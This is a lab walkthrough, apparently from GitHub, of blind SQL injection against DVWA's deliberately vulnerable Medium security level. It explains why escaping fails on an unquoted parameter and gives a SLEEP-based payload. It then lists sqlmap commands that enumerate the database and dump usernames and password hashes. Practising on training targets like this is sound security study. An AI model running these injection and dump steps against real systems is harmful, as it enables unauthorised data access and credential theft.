 ##  Launching an Attack from Another PC in the LAN:

The Medium level uses a form of SQL injection protection with the function mysql_real_escape_string(). However, due to the SQL query not having quotes around the parameter, this does not fully protect the query from being altered. The text box has been replaced with a pre-defined dropdown list and uses POST to submit the form (see source code).

![image](https://github.com/user-attachments/assets/ba981869-abd4-4b40-9554-9be73e9f1330)

 This code tries to protect against SQL injection using `mysqli_real_escape_string()`. This function escapes special characters in the user input.

But there’s a mistake in the SQL query:

```sql
$query = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```
❌ The user input $id is not inside quotes — so attackers can still inject SQL if they use numbers or logical conditions.

so manyone can injecting something like:

```
1 AND SLEEP(5)
```
That becomes:

```sql
SELECT first_name, last_name FROM users WHERE user_id = 1 AND SLEEP(5);
This is a time-based blind SQL injection, and it works even though you escaped the input.
```

Attackers able to intercept and modify POST data using sqlmap tool .

You're targeting:

```
http://<ip>/DVWA/vulnerabilities/sqli_blind/
```

and the form sends a POST request with parameters like:

```
POST /DVWA/vulnerabilities/sqli_blind/ HTTP/1.1
Content-Type: application/x-www-form-urlencoded

id=1&Submit=Submit
```

You want to inject a payload into id that proves SQLi is possible — ideally a time-based blind SQLi.

### Using sqlmap

```
sqlmap -u "http://<ip>/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=YOUR_SESSION_ID" \
--technique=BT \
--level=2 \
--risk=2 \
--batch
```

![image](https://github.com/user-attachments/assets/34b7fb18-ba9c-472b-84ba-e22b468c98c9)

The injection point was confirmed on the id parameter (POST), which is vulnerable to both Boolean-based (id=1 AND 1682=1682) and Time-based (id=1 AND (SELECT SLEEP(5))) blind SQL injection; the backend uses MySQL (MariaDB fork) on Apache 2.4.63 running Debian Linux, and despite being set to Medium security, it is still injectable.

Extract data from dvwa DB:

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
--dbs
```

![image](https://github.com/user-attachments/assets/c1c996df-594e-4f5d-8753-bb806893604c)

Found Databases.

Extract Table & User Info:

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
-D dvwa --tables
```

![image](https://github.com/user-attachments/assets/519e573b-d747-406e-9edf-c9be196d1315)

Listed tables in dvwa.

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
-D dvwa -T users --columns
```

Then list columns in the users table.

![image](https://github.com/user-attachments/assets/b8653499-fa81-467f-b511-9a710403f910)

Then dump usernames and passwords:

```
sqlmap -u "http://172.17.128.158/DVWA/vulnerabilities/sqli_blind/" \
--data="id=1&Submit=Submit" \
--cookie="security=medium; PHPSESSID=9214bb7c3ab25045944f51649562e453" \
-D dvwa -T users -C user,password --dump
```

![image](https://github.com/user-attachments/assets/782a129f-ae44-472a-a204-306fe512cdcf)
 
The attack was successful




